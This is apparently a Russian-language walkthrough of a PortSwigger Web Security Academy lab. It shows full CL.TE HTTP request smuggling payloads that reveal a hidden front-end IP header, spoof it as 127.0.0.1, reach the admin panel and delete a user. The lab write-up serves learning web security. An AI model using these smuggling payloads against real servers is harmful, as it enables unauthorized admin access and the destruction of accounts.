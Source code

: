 Перейдем на уязвимый ресурс 

и перейдем по директории `/admin` и увидим, что она доступна только под админом или же с `127.0.0.1`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/1.png)

Далее добавим заголовок `X-forwarded-for:127.0.0.1`

и увидим, что нам это тоже не подходит
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/2.png)

Далее согласно мануалу поймем, что на фронте и бэке - `CL Или TE`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/3.png)

Пройдемся согласно мануалу, и нам повезло и срайзу поймем, что тут CL.TE
```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-encoding: chunked
Content-Length: 6

3
abc
X
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/4.png)

Сконфигурируем `CL.TE` запрос на просмотр страницы `/admin`
```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-encoding: chunked
Content-Length: 99

0

POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/5.png)

и отправим ему вдогонку обычный запрос
```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
и увидим привычную нам напись, что надо быть с `локалхоста, или админской УЗ`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/6.png)

Вернемся в главный запрос и добавим
`X-forwarded-for: 127.0.0.1`

Тем самым получив
```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-encoding: chunked
Content-Length: 127

0

POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-forwarded-for: 127.0.0.1
Content-Length: 3

x=
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/7.png)

и вдогонку пошлем обычный запрос на корневую страницу
```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
и увидим, что ничего не изменилось
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/8.png)

Существует гипотеза, что происходит переопределение заголовков, и существует какой-то кастомный заголовок, который выполняет роль `X-forwarded-for`


Так же заметим особенность, что при поисковом запросе, весь поисковый запрос дублируется на стороне фронта
```
search=qwe123
```
`0 search results for 'qwe123'`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/9.png)

отлично, попробуем сделать так, чтобы второй запрос попал в "поисковый" результат, тем самым мы получим все служебные заголовки, которые будут экранированы на фронте

```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-encoding: chunked
Content-Length: 104

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 150

search=123
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/10.png)

и отправим вдогонку второй запрос 
```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
и увидим, что существует заголовок
`X-xhZoVo-Ip: 171.33.248.178`

отлично
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/11.png)

Вернемся к запросу, и попробуем теперь добраться до админской панели 

```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-encoding: chunked
Content-Length: 123

0

POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-xhZoVo-Ip: 127.0.0.1
Content-Length: 3

x=
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/12.png)

и отправим вдогонку второй запрос 
```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
и видим, что нас пустило на админскую панель
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/13.png)

Далее удалим carlos'a как этого и требует задание

```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-encoding: chunked
Content-Length: 146

0

POST /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-xhZoVo-Ip: 127.0.0.1
Content-Length: 3

x=
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/14.png)

и вдогонку отправим второй запрос 
```
POST / HTTP/1.1
Host: 0a04000204078b8b809eee63003400eb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
и после всех редиректов увидим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/pics%20for%20walkthrough/15.png)
